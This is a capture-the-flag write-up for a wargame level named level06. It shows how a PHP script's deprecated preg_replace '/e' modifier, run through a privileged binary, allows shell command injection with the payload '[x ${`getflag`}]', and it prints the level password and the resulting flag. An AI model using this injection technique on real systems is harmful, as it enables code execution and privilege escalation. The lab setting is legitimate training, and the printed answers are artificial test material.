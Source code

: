 # level06

## Vulnerability: Deprecated function leading to code injection

level06's password: `viuaaale9huek52boumoomioc`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level06 executable belongs to flag06 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```bash
scp -P 4242 level06@<host>:level06 .
retdecomp level06
```

setresgid() confirms that privilege escalation is possible

4. examinate the existing php code

```bash
cat level06.php
```

shows deprecated `\e` regex modifier, which indicates we can inject code in the string. preg_replace will perform the regex substitution then evaluate the code

5. inject some code to pwn the flag

```bash
echo '[x ${`getflag`}]' > /tmp/exploit.php
```

```bash
./level06 /tmp/exploit.php
```

gives flag: `wiok45aaoguiboiki2tuin6ub`

